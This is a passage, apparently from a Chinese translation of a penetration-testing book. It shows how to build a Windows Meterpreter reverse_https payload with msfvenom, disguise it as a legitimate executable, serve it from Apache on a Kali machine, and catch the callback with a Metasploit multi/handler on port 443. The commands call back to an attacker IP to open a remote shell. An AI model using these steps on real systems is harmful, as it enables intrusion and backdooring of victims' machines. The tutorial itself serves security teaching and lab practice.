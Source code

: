 我们通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_https LHOST=192.168.204.128 LPORT=443  -f exe -o svchost13.exe

```

`-a`标志用于设置架构，即 x86。`–platform`标志将设置操作系统，即 Windows。`-p`标志将设置要使用的有效负载类型。我们还将添加攻击者的机器 IP 地址和要连接的侦听端口。这里，我们使用的是端口 443。我们将使用反向 https 连接来连接到攻击者的机器。`-f`标志是要写入的文件类型。这里是`exe`。最后，`-o`标志指示 venom 写出文件名`ftpbasicsvr.exe`，这是我们要替换的文件名：

![Replacing the executable](../Images/image00889.jpeg)

我们现在有一个恶意负载。你不是总想有恶意的时候吗？这是你的大好机会！

我们需要将文件放在 Kali 攻击机器上，用户可以将其复制到受害者机器上。因此，打开 Nautilus，右键单击并复制：

![Replacing the executable](../Images/image00890.jpeg)

然后点击**文件系统**图标上的，进入`/var/www`目录，右键点击粘贴文件：

![Replacing the executable](../Images/image00891.jpeg)

Kali 上的服务没有设置为自动启动，这是有充分理由的。在敌对环境中，任何打开的侦听端口都可能成为另一个黑客利用的漏洞。我们需要启动 apacheweb 服务。运行以下命令：

```
service apache2 start

```

![Replacing the executable](../Images/image00892.jpeg)

档案准备好了。最好使用 http 或 https 服务来交换文件。这些服务几乎可以在所有系统上使用，因为这些是用于更新系统的协议。网络监控设备可能会检测到或阻止尝试（或成功）连接到 FTP、SSH 或非标准端口等协议。

接下来，我们需要启动负载可以连接的处理程序。从 msfconsole 提示符运行以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.204.128
set LPORT 443

```

然后运行以下命令：

```
exploit

```

这将打开端口并开始监听端口`443`以接收受害者机器的呼叫总部：

![Replacing the executable](../Images/image00893.jpeg)

接下来，从受害者机器打开您选择的 web 浏览器，并通过转到`http://192.168.204.128/ftpbasicsvr.exe`从攻击机器获取文件。您的浏览器可能会抱怨下载可执行文件，但只需更改安全设置，然后下载文件即可。这有点嘈杂，具有 ArcSight 客户端的机器将注册您正在作为系统用户进行这些更改：
